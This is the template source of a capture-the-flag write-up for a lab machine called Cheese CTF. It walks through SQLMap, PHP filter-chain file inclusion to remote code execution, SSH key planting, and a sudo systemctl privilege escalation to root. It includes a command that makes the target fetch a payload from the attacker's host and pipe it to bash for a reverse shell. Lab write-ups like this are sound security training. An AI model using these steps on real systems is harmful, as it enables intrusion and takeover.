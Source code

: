 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Running an Nmap scan yields a lot, and I mean a lot of open ports. Almost all of them are not meaningful and are there to throw us off.")}}

{{text("Ports that we should focus on are:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Upon visiting port 80, we are presented with a cheese shop page.")}}

{{image("../../static/writeups/cheesectf/images/000002.jpg")}}

{{header("Admin page", "admin-page")}}

{{text("There is also a login page.")}}

{{image("../../static/writeups/cheesectf/images/000003.jpg")}}

{{text("We should test if <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SQL Injection</code> will work on this form.")}}

{{text("We catch the request using Burp Suite and then try to use it in SQLMap.")}}

{{image("../../static/writeups/cheesectf/images/000004.jpg")}}

{{console("sqlmap -r request.txt", "...
got a 302 redirect to 'http://10.10.229.61/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n]
...")}}

{{text("We can see that SQLMap got redirected to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>?file=supersecretadminpanel.html</code>. We can try to go to this URL.")}}

{{image("../../static/writeups/cheesectf/images/000013.jpg")}}

{{text("We access the admin panel for the website.")}}

{{image("../../static/writeups/cheesectf/images/000005.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("There is an interesting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>?file</code> parameter together with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>php://filter</code>.")}}

{{image("../../static/writeups/cheesectf/images/000006.jpg")}}

{{text("While trying to read about PHP filters and how to exploit them, I stumbled upon this:")}}

{{link("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers", "../../static/writeups/images/github.jpg", "LFI / RFI using php://filter wrappers")}}

{{text("We are instructed to use a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>php filter chain generator</code> to generate a PHP chain, which we could use to achieve RCE.")}}

{{link("https://github.com/synacktiv/php_filter_chain_generator", "../../static/writeups/images/github.jpg", "PHP filter chain generator")}}

{{text("We get the Python file and begin constructing our reverse shell.")}}

{{text("We get a reverse shell from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and save it in a file.")}}

{{image("../../static/writeups/cheesectf/images/000007.jpg")}}

{{text("We then generate a PHP filter chain that will download our reverse shell and execute it.")}}

{{console("python3 php_filter_chain_generator.py --chain '<?= curl -s -L 10.9.4.147/payload|bash ?>'", "
[+] The following gadget chain will generate the following code : <?= curl -s -L 10.9.4.147/payload|bash ?>
(base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuNC4xNDcvcGF5bG9hZHxiYXNoYCA/Pg) php://filter/...")}}

{{text("We set up a netcat listener on the correct port and paste our generated chain into the URL.")}}

{{text("If we did everything correctly, we should now have a reverse shell.")}}

{{image("../../static/writeups/cheesectf/images/000008.jpg")}}

{{header("Shell as comte", "shell-as-comte")}}

{{text("While browsing through the files, we go into <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/comte/.ssh</code> and discover that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>authorized_keys</code> file is writable by us.")}}

{{image("../../static/writeups/cheesectf/images/000009.jpg")}}

{{text("We just need to add our SSH key into this file, and we will be able to log in as the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>comte</code> user.")}}

{{text("Back on our machine, we generate a set of SSH keys.")}}

{{console("ssh-keygen -t rsa", "Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): /home/user/php_filter_chain_generator/id_rsa
Enter passphrase (empty for no passphrase):
...")}}

{{text("We copy our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa.pub</code> key and paste it into the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>authorized_keys</code> file.")}}

{{image("../../static/writeups/cheesectf/images/000010.jpg")}}

{{text("We can now log in as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>comte</code> by providing our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa</code> file.")}}

{{console("ssh comte@10.10.41.67 -i id_rsa", "The authenticity of host '10.10.41.67 (10.10.41.67)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.67' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS GNU/Linux 5.4.0-174-generic x86_64 ...")}}


{{text("We are able to read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>user.txt</code> flag now.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo -l</code> reveals a lot of useful information.")}}

{{console("sudo -l", "User comte may run the following commands on cheesectf: 
(ALL) NOPASSWD: /bin/systemctl daemon-reload 
(ALL) NOPASSWD: /bin/systemctl restart exploit.timer 
(ALL) NOPASSWD: /bin/systemctl start exploit.timer 
(ALL) NOPASSWD: /bin/systemctl enable exploit.timer")}}

{{text("If we read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/systemd/system/exploit.service</code> service, we see that it copies <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>xxd</code> to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt</code> and adds a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID bit</code> to it.")}}

{{text("If we try to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>exploit.timer</code>, it fails.")}}

{{text("This is because the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>OnBootSec</code> value is not present in the file.")}}

{{text("We have to modify it for it to run.")}}

{{image("../../static/writeups/cheesectf/images/000011.jpg")}}

{{text("Now, after running the service, a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID bit</code> should have been added to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>xxd</code> binary.")}}

{{text("We can use the method from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GTFObins</code> to read the flag.")}}

{{link("https://gtfobins.github.io/gtfobins/xxd/#file-read", "https://gtfobins.github.io/assets/logo.png", "xxd | GTFObins")}}

{{image("../../static/writeups/cheesectf/images/000012.jpg")}}

{{script()}}